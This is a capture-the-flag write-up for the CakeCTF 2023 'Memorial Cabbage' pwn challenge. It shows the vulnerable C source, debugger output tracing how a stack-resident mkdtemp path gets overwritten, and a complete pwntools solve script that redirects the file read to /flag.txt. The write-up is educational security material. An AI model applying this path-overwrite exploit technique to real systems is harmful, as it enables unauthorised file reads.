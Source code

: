 # Memorial Cabbage

> Author: ptr-yudai<br>
> Description: Memorial Cabbage Unit 3<br>
> Attachment: [memorial-cabbage.tar.gz](https://raw.githubusercontent.com/d0UBleW/ctf/main/cake-ctf/pwn/memorial-cabbage/memorial-cabbage.tar.gz)<br>

<div class="hidden">
    keywords: CakeCTF 2023, pwn
</div>

## TL;DR

`mkdtemp` return value lives in the stack instead of heap which allow us to overwrite it.

## Source Code

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define TEMPDIR_TEMPLATE "/tmp/cabbage.XXXXXX"

static char *tempdir;

void setup() {
  char template[] = TEMPDIR_TEMPLATE;

  setvbuf(stdin, NULL, _IONBF, 0);
  setvbuf(stdout, NULL, _IONBF, 0);

  if (!(tempdir = mkdtemp(template))) {
    perror("mkdtemp");
    exit(1);
  }
  if (chdir(tempdir) != 0) {
    perror("chdir");
    exit(1);
  }
}

void memo_r() {
  FILE *fp;
  char path[0x20];
  char buf[0x1000];

  strcpy(path, tempdir);
  strcpy(path + strlen(TEMPDIR_TEMPLATE), "/memo.txt");
  if (!(fp = fopen(path, "r")))
    return;
  fgets(buf, sizeof(buf) - 1, fp);
  fclose(fp);

  printf("Memo: %s", buf);
}

void memo_w() {
  FILE *fp;
  char path[0x20];
  char buf[0x1000];

  printf("Memo: ");
  if (!fgets(buf, sizeof(buf)-1, stdin))
    exit(1);

  strcpy(path, tempdir);
  strcpy(path + strlen(TEMPDIR_TEMPLATE), "/memo.txt");
  if (!(fp = fopen(path, "w")))
    return;
  fwrite(buf, 1, strlen(buf), fp);
  fclose(fp);
}

int main() {
  int choice;

  setup();
  while (1) {
    printf("1. Write memo\n"
           "2. Read memo\n"
           "> ");
    if (scanf("%d%*c", &choice) != 1)
      break;
    switch (choice) {
      case 1: memo_w(); break;
      case 2: memo_r(); break;
      default: return 0;
    }
  }
}
```

## Initial Analysis

At a glance, the program seems to not have any vulnerability. The `setup()`
function creates a temporary directory under `/tmp` and save the directory name
to `tempdir`. Both memo write and read have proper size constraints to prevent
buffer overflow and would operate on a file named `memo.txt` under `tempdir`.

Next, my plan is to just fill up `buf` with `0xfff` bytes of cyclic pattern and
observe any interesting outcome.

```console
gef> x/s (char*)tempdir
0x7ffd9aab6920: "/tmp/cabbage.FSWsBP"
gef> ni
gef> x/s (char*)tempdir
0x7ffd9aab6920: "bovabowaboxabo"
```

Turns out that our input overwrites part of `tempdir`. This happens because
`mkdtemp` returns `char *` that is pointing to the stack and when the `setup()`
returns, the string `/tmp/cabbage.FSWsBP` is located in the stack area which
would be used to allocate local variables when another function is called.
In this case, when `memo_w` is called, the memory which would be allocated for
`buf` overlaps with `tempdir`, which allows us to overwrite the path value.

```console
gef> x/5i memo_w+59
   0x55565ba76502 <memo_w+59>:  mov    rdx,QWORD PTR [rip+0x2b17]        # 0x55565ba79020 <stdin@GLIBC_2.2.5>
   0x55565ba76509 <memo_w+66>:  lea    rax,[rbp-0x1010]
   0x55565ba76510 <memo_w+73>:  mov    esi,0xfff
   0x55565ba76515 <memo_w+78>:  mov    rdi,rax
   0x55565ba76518 <memo_w+81>:  call   0x55565ba76180 <fgets@plt>
gef> x/gx $rbp-0x1010
0x7ffd9aab5930: 0x6161616261616161
gef> p/x 0x7ffd9aab5930+0x1000
$6 = 0x7ffd9aab6930
```

## Solution

Now that we are able to overwrite the value of `tempdir` and the memo path
is constructed everytime `memo_r` is called, we could overwrite `tempdir` to be
`/flag.txt\x00`. Since the length of `/flag.txt\x00` is shorter than `TEMPDIR_TEMPLATE`,
when `strcpy(path + strlen(TEMPDIR_TEMPLATE), "/memo.txt")` is called, our NULL
termination stays and `fopen()` would open `/flag.txt`, instead of `/flag.txtgarbage/memo.txt`

> [!IMPORTANT]
> When testing locally, make sure that the running user has no write permission
> to `/flag.txt` since `memo_w` would not return early and instead overwrite
> the content of `/flag.txt`.

Final solve script:

```python
#!/usr/bin/env python3

# type: ignore
# flake8: noqa

from pwn import *

elf = context.binary = ELF("./cabbage", checksec=False)


def start(argv=[], *a, **kw):
    nc = "nc memorialcabbage.2023.cakectf.com 9001"
    nc = nc.split()
    host = args.HOST or nc[1]
    port = int(args.PORT or nc[2])
    if args.REMOTE:
        return remote(host, port)
    else:
        return process([elf.path] + argv, env=env, *a, **kw)


env = {}
io = start()

io.sendline(b"1")
io.sendline(cyclic(0xff0) + b"/flag.txt\x00")
io.sendline(b"2")

io.interactive()
```

```console
$ ./solve.py REMOTE HOST=localhost PORT=9001
[+] Opening connection to localhost on port 9001: Done
[*] Switching to interactive mode
1. Write memo
2. Read memo
> Memo: 1. Write memo
2. Read memo
> Memo: FakeCTF{*** REDACTED ***}
1. Write memo
2. Read memo
> $
```

